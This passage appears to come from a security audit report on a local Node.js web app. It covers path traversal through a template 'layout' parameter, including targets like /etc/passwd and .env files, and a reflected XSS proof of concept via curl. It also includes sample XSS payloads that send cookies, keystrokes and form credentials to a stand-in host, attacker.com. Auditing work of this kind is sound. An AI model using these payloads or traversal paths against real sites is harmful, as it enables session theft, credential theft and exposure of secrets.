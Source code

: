 **Attack Vector:**
- The `layout` parameter is passed unsanitized to Handlebars template engine
- Allows reading arbitrary files via relative path traversal
- Could expose sensitive configuration files, credentials, source code

**Potential Targets:**
- `../../etc/passwd` (on Linux systems)
- `./../.env` (environment variables with secrets)
- `./../config/database.yml`
- `./../app.js` (application source code)

**Location:** `routes/index.js:72` - account_details handler

---

### 3. Cross-Site Scripting (XSS)

**Vulnerability:** Improper output encoding in template rendering
**CVSS Score:** 6.1 (Medium)
**CWE:** CWE-79 (Cross-site Scripting)

#### Reflected XSS via redirectPage Parameter
```bash
# Inject malicious JavaScript
curl -s "http://localhost:3001/login?redirectPage=%22%3E%3Cscript%3Ealert(1)%3C/script%3E"

# HTML Output:
# <input type="hidden" name="redirectPage" value=""><script>alert(1)</script>" />
```

**Attack Vector:**
- Template uses `<%- redirectPage %>` (unescaped) instead of `<%= redirectPage %>` (escaped)
- Allows injection of arbitrary HTML/JavaScript
- Can steal session cookies, perform phishing, redirect users

**Exploitation Scenarios:**
```javascript
// Session cookie theft
"><script>fetch('https://attacker.com/?c='+document.cookie)</script>

// Keylogger injection
"><script>document.addEventListener('keypress',e=>fetch('https://attacker.com/?k='+e.key))</script>

// Credential harvesting
"><script>document.forms[0].action='https://attacker.com/steal'</script>
```

**Location:** `views/admin.ejs` - redirectPage field

---

### 4. Open Redirect

**Vulnerability:** Unvalidated redirect URL
**CVSS Score:** 4.3 (Medium)
**CWE:** CWE-601 (URL Redirection to Untrusted Site)
